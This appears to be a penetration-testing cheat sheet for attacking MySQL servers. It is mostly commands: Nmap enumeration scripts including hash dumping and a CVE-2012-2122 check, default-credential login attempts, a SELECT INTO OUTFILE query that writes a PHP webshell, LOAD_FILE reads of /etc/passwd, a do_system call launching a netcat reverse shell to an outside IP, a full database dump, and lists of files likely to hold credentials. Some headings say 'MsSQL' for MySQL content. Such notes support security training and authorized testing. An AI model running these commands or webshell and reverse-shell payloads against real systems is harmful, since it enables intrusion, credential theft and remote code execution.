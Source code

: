 ## Nmap

```
nmap -sV -Pn -vv --script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 $ip -p 3306

nmap -sV -Pn -vv -script=mysql* $ip -p 3306
```
# Connecting to MsSQL from Target

```
mysql -u root 
# Connect to root without password

mysql -u root -p 
# A password will be asked

# Always test root:root credential
```

# Connecting to MsSQL from Attacker

```
mysql -u julio -pPassword123 -h 10.129.20.13
```

## MySQL Commands

| Command                                                                                   | Description                                                                                   |
| ----------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| `SHOW DATABASES;`                                                                         | Show all available databases in MySQL.                                                        |
| `USE htbusers;`                                                                           | Select a specific database in MySQL.                                                          |
| `SHOW TABLES;`                                                                            | Show all available tables in the selected database in MySQL.                                  |
| `SELECT * FROM users;`                                                                    | Select all available entries from the "users" table in MySQL.                                 |
| `SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'` | Create a file using MySQL.                                                                    |
| `show variables like "secure_file_priv";`                                                 | Check if the the secure file privileges are empty to read locally stored files on the system. |
| `select LOAD_FILE("/etc/passwd");`                                                        | Read local files in MySQL.                                                                    |
# If running as root

```
select do_system('nc 192.168.49.136 8080 -e /bin/bash');
```

# Getting all the information from inside the database

```
mysqldump -u admin -p admin --all-databases --skip-lock-tables 
```

# Post Enumeration

Here are list of some files to check after shell on target system to get some credentials or some juicy information that help to get root easily

## Configuration file

### Unix

```
my.cnf
/etc/mysql
/etc/my.cnf
/etc/mysql/my.cnf
/var/lib/mysql/my.cnf
~/.my.cnf
/etc/my.cnf
```

### Windows

```
config.ini
my.ini
windows\my.ini
winnt\my.ini
<InstDir>/mysql/data/
```

## Command History

```
~/.mysql.history
```

## Log Files

```
connections.log
update.log
common.log
```

## Finding passwords to MySQL

```
/var/www/html/configuration.php
```